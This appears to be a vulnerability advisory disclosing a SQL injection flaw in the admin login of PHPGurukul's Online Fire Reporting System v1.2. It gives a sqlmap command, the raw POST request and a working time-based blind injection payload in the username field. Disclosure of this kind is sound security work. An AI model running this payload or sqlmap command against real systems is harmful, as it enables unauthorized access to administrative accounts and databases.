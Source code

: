 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/index.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/index.php

**Version**

- V1.2

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
POST /admin/ HTTP/1.1
Host: www.firereport.top
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Origin: http://www.firereport.top
Referer: http://www.firereport.top/admin/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Encoding: gzip, deflate
Content-Length: 33

username=1&inputpwd=1&login=login
```



![image-20250531184016046](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311840133.png)

```
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 7844 FROM (SELECT(SLEEP(5)))ZsBh)-- Lnbc&inputpwd=1&login=login
---
```


